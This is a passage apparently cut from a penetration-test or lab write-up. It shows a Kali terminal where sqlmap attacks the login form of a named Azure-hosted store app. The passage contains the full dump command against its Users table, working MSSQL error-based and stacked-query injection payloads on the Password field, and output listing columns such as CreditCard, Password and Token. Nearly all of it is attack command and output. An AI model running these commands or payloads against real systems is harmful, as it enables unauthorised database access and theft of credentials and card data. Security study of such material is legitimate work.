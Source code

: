 ```bash!
[10:01:16] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 12 times
[10:01:16] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/digiserver2.eastus.cloudapp.azure.com'

[*] ending @ 10:01:16 /2022-08-21/

```

#### Table Dump
```bash!
┌──(root💀kali)-[~]
└─# sqlmap -u "http://digiserver2.eastus.cloudapp.azure.com/store/Account/Login" --method POST --data "Email=admin%40gss.com.tw&Password=123&RememberMe=false" -p "Email,Password" --dbms="MSSQL" --technique USE --batch -D StoreApp -T Users --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.7#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:04:59 /2022-08-21/

[10:04:59] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('ASP.NET_SessionId=i53yviwi3h1...ohxmaewsa2;VisitStart=2022/8/21 ä...� 10:04:58'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Password (POST)
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: Email=admin@gss.com.tw&Password=123' AND 4247 IN (SELECT (CHAR(113)+CHAR(112)+CHAR(118)+CHAR(113)+CHAR(113)+(SELECT (CASE WHEN (4247=4247) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(120)+CHAR(106)+CHAR(118)+CHAR(113)))-- knGZ&RememberMe=false

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: Email=admin@gss.com.tw&Password=123';WAITFOR DELAY '0:0:5'--&RememberMe=false
---
[10:04:59] [INFO] testing Microsoft SQL Server
[10:04:59] [INFO] confirming Microsoft SQL Server
[10:05:00] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 7 or 2008 R2
web application technology: Microsoft IIS 7.5, ASP.NET
back-end DBMS: Microsoft SQL Server 2008
[10:05:00] [INFO] fetching columns for table 'Users' in database 'StoreApp'
[10:05:00] [INFO] resumed: 'CreditCard'
[10:05:01] [INFO] resumed: 'Email'
[10:05:01] [INFO] resumed: 'FirstName'
[10:05:02] [INFO] resumed: 'IsAdmin'
[10:05:02] [INFO] resumed: 'LastName'
[10:05:02] [INFO] resumed: 'Password'
[10:05:03] [INFO] resumed: 'PasswordHash'
[10:05:03] [INFO] resumed: 'PasswordSalt'
[10:05:03] [INFO] resumed: 'Token'
[10:05:03] [INFO] resumed: 'TokenCreTime'
[10:05:03] [INFO] resumed: 'UserID'

```